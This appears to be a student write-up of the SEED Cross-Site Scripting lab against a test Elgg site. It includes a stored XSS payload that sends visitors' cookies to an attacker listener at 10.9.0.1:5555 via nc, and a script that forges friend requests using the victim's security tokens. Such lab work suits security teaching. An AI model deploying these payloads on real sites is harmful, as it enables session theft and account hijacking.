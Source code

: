 # Cross-Site Scripting (XSS) Attack Lab

## Task 1

- Logged in as Alice, since their credentials are displayed in the lab guide (username: alice, password: seedalice).
- Clicked the *Edit Profile* button and set the Brief Description with the string:
`<script>alert('hello')</script>`
- After visiting Alice's profile page, the user is surprised by a pop-up, meaning that the Javascript code was executed.

![Task 1 screenshot](images/Lab5Task1.png)

## Task 2

- The procedure is similar to the previous task, but the content of the pop-up is now replaced by the user's cookies, stored in the variable `document.cookie`

![Task 2 screenshot](images/Lab5Task2.png)

## Task 3

- Similarly to the previous tasks, edit the Brief Description of Alice's profile, but this time its content will be the string:
`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>`
- This way, when some user visits Alice's profile, an HTTP GET request will be sent to the attacker's machine.
- The attacker's machine must be listening on the port 5555, done by executing the following command:
`nc -lknv 5555`
- When the HTTP GET request is received, the cookies of the user that visited Alice's profile become available to the attacker.

![Task 3 screenshot](images/Lab5Task3.png)

## Task 4

- Log in as Alice and manually add Samy as a friend, by visiting his profile page and clicking on the button *Add friend*.
- Check the HTTP request of that action by using a Firefox add-on called HTTP Header Live.
- Based on the request URL, change the value of the variable `sendurl`:
`var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token`
- Log in as Samy using the given credentials (username: samy, password: seedsamy).
- Edit his profile by inserting the following script in the About Me section, using the *Text mode*, which is done by clicking on the button *Edit HTML*:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

- Log in as Boby, using the given credentials (username: boby, password: seedboby) and visit Samy's profile. By refreshing the page, it's possible to see that Boby instantly became Samy's friend.

- Question 1 answer:
    - Lines ➀ and ➁ are stored as variables given those are dynamic security tokens unique to a user that enters Samy's profile page, which are required security parameters to add Samy as a friend.
- Question 2 answer:
    - We were unable to launch an attack in the *Editor Mode*, given that it sanitizes the input of some characters, such as "<" or ">" signs, making Javascript insertion impossible.

![Task 4 screenshot](images/Lab5Task4.png)